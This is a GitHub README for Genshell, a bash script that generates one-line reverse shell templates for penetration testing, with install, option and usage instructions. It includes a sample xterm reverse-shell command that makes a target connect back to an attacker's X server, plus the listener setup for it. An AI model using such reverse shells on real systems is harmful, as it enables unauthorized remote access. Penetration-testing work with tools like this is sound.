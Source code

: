 # Genshell: A bash copy-and-paste oneline reverse shell generator.

This project is deticated to ippsec. Thank you for releasing over one-hundred hours of phenomenal cybersecurity content.

Another thanks to pentestmonkey for dishing out the awesome shells!

## Forenote 
I found myself browsing other websites flagged as "malicious" for rev shells and got fed up with with security reccomendations. This script automates the generation of shells without leaving the terminal (WITH COLORS!). There will likely be  rev shells here that you have seen on other sites such as pentestmonkey, hacktricks, and other pentesting sites; if a shell from your site is used, you will be added to the "Inspirations" section in the beginning of the script. All contributions welcome. This is me giving back to the community that has shared so much with me. 

<!--
*** LOGO !![vmplayer_bx33YLqLcn](https://user-images.githubusercontent.com/68730121/106347752-dc8c6a80-628e-11eb-91e9-3e2d510b2172.png)
![Banner](https://user-images.githubusercontent.com/68730121/106348443-58d57c80-6294-11eb-8aa0-b93806259f58.png)

-->
# Genshell Output 

![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)




<!-- GETTING STARTED -->
# Installation

1. Using the GitHub repo  
   ```sh
   git clone https://github.com/djjoa/genshell.git
   cd genshell
   chmod +x gennshell
   ./genshell 
   ```
   
2. As a standalone script
   ```sh
   wget https://raw.githubusercontent.com/djjoa/genshell/main/genshell && chmod +x genshell && ./genshell
   #OR 
   curl https://raw.githubusercontent.com/djjoa/genshell/main/genshell -o genshell && chmod +x genshell && ./genshell
   ```

3. **Link the file to your path for native use with bash** (not necessary for the script to work) 
   ```sh
   # Before
   ./genshell -h 

   # After 
   sudo ln -s /genshell_install_dir/genshell /usr/local/bin/genshell 
   genshell -h
   ```
<!-- USAGE EXAMPLES -->

# Help

```sh
./genshell -h

genshell: The atomatic copy-and-paste oneline reverse shell generator. Just add args!

options:
-h|--help              Print this help menu
-b|--banner            Display the banner
-p|--port [INT]        Port you wish to cach your shell back on
-l|--LHOST [IP]        Supply TUN0 addr if not auto-parsed by the script (autoparse is set by default)
-t|--RHOST [IP]        Target IP (optional)
```

# Usage

```sh
./genshell -u
Usage: genshell [-h|--help] -p|--port [args] [-l|--LHOST [args]] [-t|--RHOST [args]] [-b|--banner]
```

# Running the Script 

When run with no arguments, the script displays the banner and help information. 

![vmplayer_HhJF2BiEUP](https://user-images.githubusercontent.com/68730121/106348709-2298fc80-6296-11eb-85c5-3502ec7fff5b.png)

# Generating Reverse Shell Templates 

To generate all reverse shell templates the `-p` or `--port` must be used. The script will attempt to automatically parse your `tun0` network adapter (assuming you are pentesting over a vpn). If it fails, the `-l` or `--LHOST` agument may be passed to manually specificy a listening network adapter. 

```sh
./genshell -p 4444
```

![vmplayer_0bpLvQBUgZ](https://user-images.githubusercontent.com/68730121/106348803-0184db80-6297-11eb-9146-6b86acea0595.png)

# Additional Arguments 
If the `-t` or `--RHOST` argument is passed the `xterm` reverse shell dialog will be displayed at the end of the script. 90% of the shell's don't require a RHOST paramter; they have been ommited by default. 

```sh
./genshell -p 4444 -l 1.1.1.1 -t 4.4.4.4
.... <snip> .... 
##################### XTERM ##################### 
The following command should be run on the server.  It will try to connect back 1.1.1.1 on TCP port 6001

xterm -display 1.1.1.1:1

To catch the incoming xterm, start an X-Server on attacker machine (:1 – which listens on TCP port 6001)

Xnest :1
xhost +4.4.4.4
```

# Usage Examples

* Generate shell templates on interface address `192.168.4.2` listening on port `4444`
```sh
./genshell --port 4444 --LHOST 192.168.4.2
./genshell  -p    4444  -l 192.168.4.2
```
* Generate shell templates with default `tun0` adapter listening on port 8181
```sh
./genshell --port 8181
./genshell -p 8181
```

<!-- CONTACT -->
## Contact

Enjoy the shellz! Never leave the terminal again to get exactly what you need to get the job done. 

Zer0 - [@x41x41x41x41](https://twitter.com/x41x41x41x41) - Discord Zer0#0272

Project Link: [https://github.com/djjoa/genshell](https://github.com/djjoa/genshell)



<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements

* [ippsec](https://twitter.com/ippsec)
* [ippsec.rocks](https://ippsec.rocks/?#)
* [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)




<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/djjoa/repo.svg?style=for-the-badge
[contributors-url]: https://github.com/djjoa/repo/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/djjoa/repo.svg?style=for-the-badge
[forks-url]: https://github.com/djjoa/repo/network/members
[stars-shield]: https://img.shields.io/github/stars/djjoa/repo.svg?style=for-the-badge
[stars-url]: https://github.com/djjoa/repo/stargazers
[issues-shield]: https://img.shields.io/github/issues/djjoa/repo.svg?style=for-the-badge
[issues-url]: https://github.com/djjoa/repo/issues
[license-shield]: https://img.shields.io/github/license/djjoa/repo.svg?style=for-the-badge
[license-url]: https://github.com/djjoa/repo/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/djjoa
